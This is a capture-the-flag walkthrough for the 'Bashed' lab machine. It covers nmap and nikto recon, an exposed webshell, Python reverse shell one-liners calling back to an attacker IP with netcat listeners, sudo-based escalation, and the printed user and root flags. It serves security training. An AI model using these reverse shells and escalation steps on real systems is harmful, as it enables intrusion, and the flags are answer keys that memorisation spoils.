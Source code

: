 ### IP
`10.10.10.68`

# Recon

### nmap
`nmap -sC -sV 10.10.10.68 -o Bashed.nmap`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-23 05:01 EST
Nmap scan report for 10.10.10.68
Host is up (0.051s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.87 seconds
```
* Looks like we only have port 80 with apache running

### nikto
`nikto -host 10.10.10.68`
```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.68
+ Target Hostname:    10.10.10.68
+ Target Port:        80
+ Start Time:         2020-11-23 05:06:21 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ IP address found in the 'location' header. The IP is "127.0.1.1".
+ OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.1.1".
+ Server may leak inodes via ETags, header found with file /, inode: 1e3f, size: 55f8bbac32f80, mtime: gzip
+ Allowed HTTP Methods: POST, OPTIONS, GET, HEAD 
+ /config.php: PHP Config file may contain database IDs and passwords.
+ OSVDB-3268: /css/: Directory indexing found.
+ OSVDB-3092: /css/: This might be interesting...
+ OSVDB-3268: /dev/: Directory indexing found.
+ OSVDB-3092: /dev/: This might be interesting...
+ OSVDB-3268: /php/: Directory indexing found.
+ OSVDB-3092: /php/: This might be interesting...
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7864 requests: 0 error(s) and 17 item(s) reported on remote host
+ End Time:           2020-11-23 05:20:10 (GMT-5) (829 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
* the `/dev/` directory has a file that gives us a webshell

# Exploitation

* We can cd into `/home/arrexel` and `cat user.txt` to get the user flag: `2c281f318555dbc1b856957c7147bfc1`

### privesc

* FIRST:
* Let's upgrade the webshell to an interactive reverse shell:
* On the local terminal, write `nc -lvnp 1234` to listen for connections
* Enter the following command in the webshell:
	* Thanks to [this](https://w00troot.blogspot.com/2017/05/getting-reverse-shell-from-web-shell.html) blog
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

* Replace `10.10.14.12` with your vpn ip

* To upgrade the shell, put `python -c 'import pty;pty.spawn("/bin/bash");'` into the new shell
* Then, exit netcat with `CRTL-Z` and run `stty raw -echo` locally
* Now, reenter your session with `fg`
* Set your terminal emulator to xterm with `export TERM=xterm`
* Set your shell to bash with `export SHELL=bash`


* Running `sudo -l`, we get the following:
```
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```
* Apparently we can already run sudo as scriptmanager without a password
* `ls -la /` also shows us that theres a `scripts` directory that only `scriptmanager` can access
	* we definitely want to switch to that user. We can do that by running `sudo -i -u scriptmanager`

* To connect back to the machine as root, let's change the python script to connect to a server
* On our local machine: `nc -lvnp 1235`
* On the reverse shell: `chmod 777 test.py` 
* On the reverse shell: `echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.12\",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > test.py`
	* Thanks to [this](https://www.oreilly.com/library/view/hands-on-red-team/9781788995238/cd15b05d-822f-494d-939a-ae5a671222ff.xhtml) page for the code

* Once we get a response on our local netcat, we can go through the same process as before to upgrade the shell.
* Now, we can cd into `/root/` and `cat root.txt` to get the root flag: `cc4f0afe3a1026d402ba10329674a8e2`